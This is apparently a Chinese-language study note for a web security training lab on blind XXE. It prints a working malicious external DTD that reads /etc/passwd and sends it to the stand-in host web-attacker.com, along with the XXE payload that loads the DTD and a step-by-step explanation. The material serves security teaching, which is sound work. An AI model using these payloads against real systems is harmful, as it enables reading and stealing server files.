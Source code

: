 
## Lab5

### 前置

利用盲XXE将数据渗透到带外

1、通过带外技术检测一个隐蔽的XXE漏洞是非常好的，但它实际上并不能证明该漏洞是如何被利用的。攻击者真正想要实现的是泄露敏感数据。这可以通过隐蔽的XXE漏洞实现，但它涉及攻击者在其控制的系统上托管恶意DTD，然后从带内XXE有效负载内调用外部DTD。

```
一个恶意DTD的示例，该DTD可用于泄漏/etc/passwd文件的内容：
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
 
此DTD执行以下步骤：
    1、定义名为的XML参数实体file，包含的内容/etc/passwd文件。
    2、定义名为的XML参数实体eval，包含另一个XML参数实体的动态声明，该实体名为exfiltrate。该exfiltrate将通过向攻击者的Web服务器发出包含file URL查询字符串中的实体。
    3、使用eval实体的动态声明，它将导致exfiltrate要执行的实体。
    4、使用exfiltrate实体，以便通过请求指定的URL来计算其值。
```

2、然后攻击者必须在他们控制的系统上托管恶意DTD，通常是将其加载到自己的Web服务器上。

```
例如，攻击者可能在以下URL提供恶意DTD：
http://web-attacker.com/malicious.dtd
```

3、最后攻击者必须向易受攻击的应用程序提交以下XXE有效负载：

```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

4、这个XXE有效负载声明了一个名为xxe的XML参数实体，然后在DTD中使用该实体。这将导致XML解析器从攻击者的服务器获取外部DTD并内联解释它。然后执行恶意DTD中定义的步骤，并将/etc/passwd文件传输到攻击者的服务器

5、此技术可能不适用于某些文件内容，包括/etc/passwd文件中包含的换行符。因为一些XML解析器使用API来获取外部实体定义中的URL，该API验证允许出现在URL中的字符。在这种情况下，可以使用FTP协议代替HTTP。有时无法过滤包含换行符的数据，因此可以将目标改为/etc/hostname之类的文件

### 题目

实验5：利用XXE盲注使用恶意外部DTD泄漏数据

```
Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD
PRACTITIONER

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, exfiltrate the contents of the /etc/hostname file.
```
